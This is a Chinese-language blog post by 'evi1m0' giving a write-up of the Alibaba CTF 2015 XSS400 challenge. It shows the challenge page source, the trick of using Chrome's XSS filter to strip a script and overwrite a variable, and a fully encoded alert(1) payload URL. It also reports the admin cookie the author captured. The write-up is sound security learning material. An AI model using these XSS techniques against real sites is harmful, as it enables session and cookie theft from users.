 ```yaml
---
layout: post
title: Alibaba CTF 2015 - XSS400 WriteUP
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - evi1m0</p>

周末两天都在疗养睡眠，恰逢 AliCTF 与 0ctf 的夺旗赛，其实我都快睡到周一了，可惜下午被 R29 叫起来说阿里出了道 XSS400 分的题还没有队伍做出，另外说明一下经过朋友得知，如果此题只有一队做出来的话，才可以直接发表 WriteUP ，不然会导致其他作弊队伍抄袭 WriteUP ，所以在几小时搞定此题后，我简单记录下这道题，比较有趣：

- Flag 隐藏在管理员的 Cookie 中
- 要求在最新版 Chrome 触发
- http://1de28830f09a4b1b.alictf.com/pet.php?id=test&type=cat

<center>
<img src="http://ww3.sinaimg.cn/large/c334041bjw1eqmynsy8c2j20e707ct9a.jpg" />
</center>


    <script>
        if(!window.chrome){
            alert('\u8bf7\u4f7f\u7528\u0043\u0068\u0072\u006f\u006d\u0065\u6d4f\u89c8\u5668\u6d4f\u89c8\u672c\u9875');
            location.href = 'https://www.google.com/chrome/';
        }
    </script>
    <script src="secWrite.js"></script>
    <script>var imageData = {name: "Oreo"}</script>
    </head>
    <body>
        <div id="console"></div>
        <img id="test" src="cat.jpg" name="cat" onload="loadSucc()" onerror="loadErr()">
        <script>
            function loadSucc(){
                document.write('This is '+imageData.name)    
            }

            function loadErr(){
                document.write('Load '+imageData.name+' Fail!')    
            }

        </script>
    </body>
    </html>
    
直接忽视 if(!window.chrome) 判断浏览器，看下 secWrite.js 文件：

    document.write = function(str){
        document.getElementById('console').innerText = str;
    }
    
id为imgID，type为imgName，这里对两个参数进行多种测试后发现无法逃逸出去，因为当 type 值不为 cat 后 imageData.name 值就被设为空值：

    <script>var imageData = {name: ""}</script>所以考虑是否能够进行 js 的变量覆盖来对 imageData 进行 name 值的修改，这里提一个小插曲，在 IE 下是可以通过类似方法进行 js 变量覆盖的：
    <html>
    <body>
        <form id="location" href="bar">
        <script>alert(location.href)</script>
    </body>
    </html>
    
但是题目要求是在最新版的 Chrome 下执行 XSS 恶意代码，所以我想消灭开头的这段初始变量代码：

    <script>var imageData = {name: "Oreo"}</script>

因为如果我们能够通过一些技巧将开始的 imageData 消灭的话就可以通过将 URL 中的 ID 设置为 imageData ，随后修改 URL 中的 type 参数，达到控制 imageData.name 的目的。

这里利用 Chrome filter 的特性，之前 Sogili 在 Twitter 发表过的一个 Tip：使用 Chrome Filter 干掉对应的 js 代码，例如：```&a=<script>var imageData = {name: "Oreo"}</script>```会触发 Chrome 过滤器另源码中的对应代码段失效，所以我们利用这个特性就能够消灭掉初始化变量代码，从而覆盖 imageData.name：

![http://ww4.sinaimg.cn/large/c334041bjw1eqmz6xpapuj213s0a4ad0.jpg](http://ww4.sinaimg.cn/large/c334041bjw1eqmz6xpapuj213s0a4ad0.jpg)

这个时候经过 dom 解析后源码变成了：

    <html><head></head><body data-feedly-mini="yes">Load evi1m0 Fail!</body></html>
    
我们可控的 imageData.name 也就是上面输出到页面中的 evi1m0，这时通过测试使用 HTML hex 16 将 ```<script>alert(1)</script>``` 编码，然后再进行 URL 编码即可：

![http://ww4.sinaimg.cn/large/c334041bjw1eqmz950158j20y20euq4u.jpg](http://ww4.sinaimg.cn/large/c334041bjw1eqmz950158j20y20euq4u.jpg)

    %26%23x3c%3B%26%23x73%3B%26%23x63%3B%26%23x72%3B%26%23x69%3B%26%23x70%3B%26%23x74%3B%26%23x3e%3B%26%23x61%3B%26%23x6c%3B%26%23x65%3B%26%23x72%3B%26%23x74%3B%26%23x28%3B%26%23x31%3B%26%23x29%3B%26%23x3c%3B%26%23x2f%3B%26%23x73%3B%26%23x63%3B%26%23x72%3B%26%23x69%3B%26%23x70%3B%26%23x74%3B%26%23x3e%3B
    
所以构造拼接起来的 alert URL：

[http://1de28830f09a4b1b.alictf.com/pet.php/?id=imageData&type=evi1m0%26%23x3c%3B%26%23x73%3B%26%23x63%3B%26%23x72%3B%26%23x69%3B%26%23x70%3B%26%23x74%3B%26%23x3e%3B%26%23x61%3B%26%23x6c%3B%26%23x65%3B%26%23x72%3B%26%23x74%3B%26%23x28%3B%26%23x31%3B%26%23x29%3B%26%23x3c%3B%26%23x2f%3B%26%23x73%3B%26%23x63%3B%26%23x72%3B%26%23x69%3B%26%23x70%3B%26%23x74%3B%26%23x3e%3B&a=%3Cscript%3Evar%20imageData%20=%20{name:%20%22%22};%3Cscript%3E](http://1de28830f09a4b1b.alictf.com/pet.php/?id=imageData&type=evi1m0%26%23x3c%3B%26%23x73%3B%26%23x63%3B%26%23x72%3B%26%23x69%3B%26%23x70%3B%26%23x74%3B%26%23x3e%3B%26%23x61%3B%26%23x6c%3B%26%23x65%3B%26%23x72%3B%26%23x74%3B%26%23x28%3B%26%23x31%3B%26%23x29%3B%26%23x3c%3B%26%23x2f%3B%26%23x73%3B%26%23x63%3B%26%23x72%3B%26%23x69%3B%26%23x70%3B%26%23x74%3B%26%23x3e%3B&a=%3Cscript%3Evar%20imageData%20=%20{name:%20%22%22};%3Cscript%3E)

![http://ww3.sinaimg.cn/large/c334041bjw1eqmzb7wmepj20k008swfg.jpg](http://ww3.sinaimg.cn/large/c334041bjw1eqmzb7wmepj20k008swfg.jpg)

修改最终版本的 Payload 并提交给 Alibaba CTF ，于是收到的 Cookie 字段：

    cookie : flag=aHR0cDovLzFkZTI4ODMwZjA5YTRiMWIuYWxpY3RmLmNvbS95aW5xdWJhaWZ1bWVpX2NodXJlbmNlb19yZW5zaGVuZ2RpYW5mZW5nLnBocD90b2tlbj03N2E2ZTNhMzJhNzUwOGY0OTg1N2IyZDA0ZTg2MjUwNA
    
BASE64 Decode:

    echo -n "aHR0cDovLzFkZTI4ODMwZjA5YTRiMWIuYWxpY3RmLmNvbS95aW5xdWJhaWZ1bWVpX2NodXJlbmNlb19yZW5zaGVuZ2RpYW5mZW5nLnBocD90b2tlbj03N2E2ZTNhMzJhNzUwOGY0OTg1N2IyZDA0ZTg2MjUwNA" | base64 -D
    http://1de28830f09a4b1b.alictf.com/yinqubaifumei_churenceo_renshengdianfeng.php?token=77a6e3a32a7508f49857b2d04e86250
    
![http://ww1.sinaimg.cn/large/c334041bjw1eqmzdx99woj20cx02swes.jpg](http://ww1.sinaimg.cn/large/c334041bjw1eqmzdx99woj20cx02swes.jpg)
